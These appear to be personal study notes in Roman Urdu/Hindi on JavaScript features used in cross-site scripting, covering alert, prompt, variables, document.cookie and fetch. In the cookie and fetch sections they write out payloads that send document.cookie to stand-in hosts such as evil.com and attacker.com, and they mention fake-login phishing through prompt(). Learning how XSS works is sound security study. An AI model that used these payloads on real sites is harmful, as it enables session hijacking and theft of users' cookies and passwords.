 JavaScript main agr hum **alert()** use krty hain ky website main XSS execute hoo rha hai ya nhi agr execute hoo rha hua too aik pop up ajaye ga

---

**prompt()** hum kisi command ky sath ius waqt use krty hain jab hamy user sy input chahie hota hai example agr hum likhty hain prompt("Enter your password") too website py aik display hota hai Enter Your Password phir user ius main apna password daaly ga

---

**var** hum taab lagaty hain jab hum user ki value ko apny database main store karna chahty hoon

**let** var aur let dono value store karte hain — lekin let zyada safe hota hai.

---

## Difference Between Var/let

Value store karna

**var**

var name = "Habib";

- Old JavaScript version ka style hai.

- Function-level scope rakhta hai.

**let**

let age = 18;

- New aur modern style hai (ES6+).

- Block-level scope rakhta hai.

---

**document.cookie** — (Cookies churaana)

document.cookie ek JavaScript command hai jo browser se current website ki cookie value nikalta hai.

### ⚠️ XSS mein is kaam ke liye use hota hai:

**var c = document.cookie;
alert(c); // tumhari current session ki cookies dikha dega**

### Agar attacker ka XSS payload chalta hai, toh wo ye kar sakta hai:

**fetch("https://evil.com/steal?cookie=" + document.cookie);**

### 🕵️‍♂️ Matlab: Victim ki session cookie attacker ko chali jaayegi = session hijack
---

**fetch()** — (Data dusri jagah bhejna)

fetch() ka kaam hota hai HTTP request bhejna JavaScript se.

### Example:

**fetch("https://attacker.com/steal?info=hello");**

🧠 Attacker isse user ka input, cookie, ya password apni site pe secretly bhej sakta hai.

### XSS exploit:

**fetch("https://evil.com/log?cookie=" + document.cookie);**
---

### Quick Summary

**alert()**	Popup show karta hai	

XSS main use: XSS payload test karna

**prompt()**	User se input leta hai

XSS main use: Fake login / phishing

**var or let**	Value store karta hai
XSS main use: Cookie ya user data store karna

**if / else** Logic lagana
XSS main use:	Kab kya run ho

**document.cookie**	User ki cookies nikalna
XSS main use:	Session hijack

**fetch()** Data dusri site pe bhejna
XSS main use: Data leak (exfiltrate)

**img.src** 	Image ke zariye request bhejna	
XSS main use: Alternate data leak meth

if else bhi 100% samj agya


